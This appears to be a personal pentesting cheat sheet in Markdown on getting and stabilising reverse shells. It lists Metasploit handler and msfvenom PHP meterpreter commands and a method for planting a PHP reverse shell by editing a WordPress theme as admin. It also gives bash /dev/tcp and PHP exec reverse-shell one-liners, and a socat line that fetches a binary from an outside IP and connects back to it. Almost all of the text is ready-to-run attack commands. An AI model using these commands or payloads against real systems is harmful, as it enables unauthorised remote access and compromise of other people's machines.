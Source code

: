 # Reverse Shell
## Metasploit
### msfconsole
- Get meterpreter session with SSH login
```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
- Meterpreter listener
```bash
$ msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload linux/x64/meterpreter/reverse_tcp
```
- PHP Web Delivery
```bash
$ msfconsole
use exploit/multi/script/web_delivery
set payload php/meterpreter/reverse_tcp
set target PHP
set lhost tun0
run
```

### msfvenom payload
- PHP Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Payload
___
### PHP
- Get reverse shell from Wordpress admin dashboard using themes edition
```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : http://hostname/wordpress/wp-content/themes/themename/file.php
```

- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

## OS Command
- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

- Socat Shell
```sh
wget -q 10.6.77.211/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.77.211:443
```

# Stabilizing shell
___
- Upgrade shell to bash/pty

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 50 columns 190
```

- If Ctrl-Cmd are needed (doesnt work well with meterpreter shell)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Then Ctrl-Z to background revshell
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 50 columns 190
```

## Links
___
### Guides
- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://github.com/pentestmonkey/php-reverse-shell
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://netsec.ws/?p=331
- https://gtfobins.github.io/

### Writeups
- 
